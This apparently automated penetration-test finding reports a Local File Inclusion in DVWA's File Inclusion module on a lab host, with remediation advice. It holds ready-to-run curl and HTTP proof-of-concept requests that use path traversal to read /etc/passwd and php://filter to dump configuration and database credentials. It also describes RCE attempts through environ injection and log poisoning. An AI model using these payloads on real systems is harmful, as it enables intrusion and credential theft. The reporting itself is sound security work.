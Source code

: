# Local File Inclusion (LFI) in DVWA File Inclusion module (parameter "page")

**ID:** vuln-0004
**Severity:** HIGH
**Found:** 2025-10-22 16:41:41 UTC

## Description

Executive Summary
A Local File Inclusion (LFI) vulnerability exists in DVWA’s File Inclusion module at /DVWA/vulnerabilities/fi/. The GET parameter page is passed to PHP include() without proper validation, allowing authenticated users to read arbitrary files on the server and disclose sensitive information, including application configuration and PHP source code via php://filter. This results in high confidentiality impact and enables further attack chaining (e.g., credential compromise, source analysis for additional exploits).

Scope and Context
- Affected endpoint:
  GET http://192.168.13.214/DVWA/vulnerabilities/fi/?page=VALUE
- Vulnerable parameter: page (user-controlled include path)
- Authentication context: DVWA authenticated session (security=low)
- Environment (observed): Apache/2.4.58 (Ubuntu), PHP 8.3.6
- Baseline proxy evidence: request ID 3756 for /vulnerabilities/fi/ with page traversal
- Reproduction steps:
  1) Browse to DVWA login: /DVWA/login.php
  2) Authenticate with default credentials: admin / password
  3) Navigate to DVWA Security and set level to Low (if not already)
  4) Navigate to File Inclusion module: /DVWA/vulnerabilities/fi/
  5) Send a GET request with traversal payload in page

Verified Exploitation Evidence
1) Arbitrary file read – /etc/passwd
   - Payload: page=../../../../../../etc/passwd
   - Evidence file: /workspace/findings/dvwa_lfi_etc_passwd_fixed.html
   - Marker observed: “root:x:0:0:”
   - Example PoC:
     curl -s "http://192.168.13.214/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd" -H "Cookie: PHPSESSID=<valid>; security=low"

2) Additional sensitive files readable
   - /etc/hosts
     Evidence: /workspace/findings/dvwa_lfi_etc_hosts.html
     Snippet markers: “127.0.0.1 localhost”
   - /proc/self/cmdline
     Evidence: /workspace/findings/dvwa_lfi_proc_cmdline.html
     Snippet markers: “/usr/sbin/apache2 -k start”
   - /etc/apache2/sites-enabled/000-default.conf
     Evidence: /workspace/findings/dvwa_lfi_apache_default.html
     Snippet markers: “DocumentRoot /var/...”, virtual host configuration details

3) PHP source disclosure via php://filter
   - Config file: php://filter/convert.base64-encode/resource=/var/www/html/DVWA/config/config.inc.php
     Raw evidence: /workspace/findings/dvwa_lfi_dvwa_config_phpfilter.html
     Decoded source: /workspace/findings/dvwa_lfi_dvwa_config_phpfilter.decoded.txt
     Extracted DB credentials: /workspace/findings/dvwa_lfi_extracted_secrets.json
       Example extracted:
       {
         "db_user": "dvwa",
         "db_password": "p@ssw0rd",
         "db_database": "dvwa",
         "db_server": "127.0.0.1"
       }
   - Module source (for triage and remediation insight):
     php://filter/convert.base64-encode/resource=/var/www/html/DVWA/vulnerabilities/fi/index.php
     Decoded: /workspace/findings/dvwa_lfi_fi_index_phpfilter.decoded.txt
     php://filter/convert.base64-encode/resource=/var/www/html/DVWA/vulnerabilities/fi/include.php
     Decoded: /workspace/findings/dvwa_lfi_fi_include_phpfilter.decoded.txt

4) Attempts that failed (for completeness and constraints)
   - /proc/self/environ include with PHP-in-User-Agent marker to explore RCE via environment injection:
     Artifact: /workspace/findings/dvwa_lfi_rce_environ.html
     Result: No execution marker observed (hit=false)
   - /var/log/apache2/access.log include (log poisoning exploration):
     Artifact: /workspace/findings/dvwa_lfi_accesslog.html
     Result: Permission denied; file not readable by web process

Master Summary Artifact
- Aggregated results, payload matrix, statuses, artifacts, and summary flags:
  /workspace/findings/dvwa_lfi_validation.json

Representative HTTP Requests (redacted)
- Example authenticated request structure (GET):
  GET /DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd HTTP/1.1
  Host: 192.168.13.214
  Cookie: PHPSESSID=<valid>; security=low
  Connection: close

- Example php://filter request (GET):
  GET /DVWA/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=/var/www/html/DVWA/config/config.inc.php HTTP/1.1
  Host: 192.168.13.214
  Cookie: PHPSESSID=<valid>; security=low
  Connection: close
  Note: Base64-decode the body to retrieve the PHP source and credentials

Business Impact
- Confidentiality: High
  Attackers can read arbitrary files in the server context, including:
  - OS files (/etc/passwd, /etc/hosts)
  - Application configuration (config.inc.php containing DB credentials)
  - Application source code (via php://filter)
  This enables credential theft, environment mapping, and facilitates further attacks such as direct database access and deeper exploitation of other modules.
- Integrity: Not directly impacted in our tests (read-only), but information disclosure significantly increases the likelihood of subsequent integrity-impacting attacks.
- Availability: Not directly impacted by the LFI itself.
- Potential chaining:
  - Use leaked DB credentials to access or pivot into the database (data exfiltration, account takeover)
  - Analyze source to identify additional vulnerabilities (e.g., injection points, weak auth logic)
  - Under different server configurations, LFI may be escalated to RCE (e.g., via log/session poisoning) though not achievable in this environment due to permissions/behavior

CVSS v3.1 (estimated)
- Vector: AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N
- Score (approx): 6.5 (High)
- Rationale: Authenticated (low privileges) required; high confidentiality impact; no direct integrity/availability impact observed.

Root Cause and Technical Details
- User-controlled page parameter is passed to include() without:
  - Strict allowlist of permitted files
  - Proper path normalization and traversal checks
  - Blocking of stream wrappers (php://filter)
- This permits directory traversal (../) to escape the intended include directory and read arbitrary files; php://filter enables disclosure of PHP source without execution.

Proof-of-Concept (ready to run)
- etc/passwd read:
  curl -s "http://192.168.13.214/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd" -H "Cookie: PHPSESSID=<valid>; security=low"
- Config source disclosure:
  curl -s "http://192.168.13.214/DVWA/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=/var/www/html/DVWA/config/config.inc.php" -H "Cookie: PHPSESSID=<valid>; security=low" | base64 -d

Evidence Files (server-side artifacts)
- /workspace/findings/dvwa_lfi_validation.json
- /workspace/findings/dvwa_lfi_etc_passwd_fixed.html
- /workspace/findings/dvwa_lfi_etc_hosts.html
- /workspace/findings/dvwa_lfi_proc_cmdline.html
- /workspace/findings/dvwa_lfi_apache_default.html
- /workspace/findings/dvwa_lfi_dvwa_config_phpfilter.html
- /workspace/findings/dvwa_lfi_dvwa_config_phpfilter.decoded.txt
- /workspace/findings/dvwa_lfi_fi_index_phpfilter.decoded.txt
- /workspace/findings/dvwa_lfi_fi_include_phpfilter.decoded.txt
- /workspace/findings/dvwa_lfi_extracted_secrets.json
- /workspace/findings/dvwa_lfi_rce_environ.html (no execution)
- /workspace/findings/dvwa_lfi_accesslog.html (permission denied)

Remediation Guidance
- Do not pass user input directly to include()/require().
- Implement a strict allowlist mapping from user-friendly identifiers to specific files (e.g., switch/case with fixed paths).
- Normalize requested paths (realpath) and ensure the resolved path remains within an allowed directory; reject any traversal attempts.
- Disable URL and wrapper features not required by the app:
  - php.ini: allow_url_fopen=0, allow_url_include=0
- Restrict PHP’s file system access with open_basedir to only necessary directories.
- Reduce web server process privileges and tighten permissions on sensitive files (logs, configs).
- Reduce error verbosity in production to avoid revealing file paths and stack traces.
- Consider WAF rules against traversal patterns (../) and wrapper schemes (php://).

Conclusion
The File Inclusion module allows arbitrary file reads and PHP source disclosure, exposing credentials and sensitive configuration. The vulnerability is high severity due to the breadth of accessible data and the potential for attack chaining. Remediation should prioritize strict server-side validation and configuration hardening.
